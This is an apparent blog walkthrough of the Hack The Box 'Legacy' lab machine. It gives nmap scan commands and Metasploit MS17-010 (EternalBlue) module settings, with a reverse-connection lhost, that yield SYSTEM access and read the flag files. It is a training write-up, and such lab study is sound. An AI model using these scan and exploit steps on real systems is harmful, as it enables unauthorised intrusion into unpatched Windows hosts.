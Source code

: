 ```yaml
---
title: Legacy
published: true
layout: post
---
```


<br />

---------------
Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access. 

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/N8OadPorX0g?si=OmSRnS52h8Gtaj2u" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.4 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn
sudo nmap -sU 10.10.10.4 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn
```

![](/assets/Legacy/1.png)
<br />
<br />
<br />

The UDP scan didn't return anything useful.

<br />

There are **3 open ports**:
+ **135/tcp**
+ **139/tcp**
+ **445/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.4 -p 135,139,445 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Legacy/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **135/tcp Microsoft Windows RPC**
+ **139/tcp Microsoft Windows netbios-ssn**
+ **445/tcp Windows XP microsoft-ds**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.4 -p 135,139,445 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```

![](/assets/Legacy/3.png)
<br />
<br />
<br />

This last scan returned a lot of information, but there is a specific critical piece of information, this machine is vulnerable to CVE-2017-0143, also known as EternalBlue.

<br />

------

<br />
### Foothold

The foothold in this machine is very easy and similar to machine Blue, the only thing we need to know is that this machine is **vulnerable to EternalBlue**.

<br />

With this information let's search for a exploit for this vulnerability in **Metasploit**:
```bash
sudo msfdb run
search ms17_010
```

![](/assets/Legacy/4.png)
<br />
<br />
<br />

We can try the first exploit and configure it, as it's the one with the **best rank**:
```Metasploit
use 0
options
set rhosts 10.10.10.4
set lhost tun0
run
```

![](/assets/Legacy/5.png)
<br />
<br />
<br />

There is a problem, this exploit is **only compatible with x64 architectures**, so we can try the next exploit:
```Metasploit
search ms17_010
use 10
set rhosts 10.10.10.4
set lhost tun0
run
```

![](/assets/Legacy/6.png)
<br />
<br />
<br />

Great!! We have get the foothold as **NT AUTHORITY\SYSTEM**, which is similar to root in Linux systems. Now we only have to print our flags:
```bash
cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
```

![](/assets/Legacy/7.png)
<br />
<br />
<br />

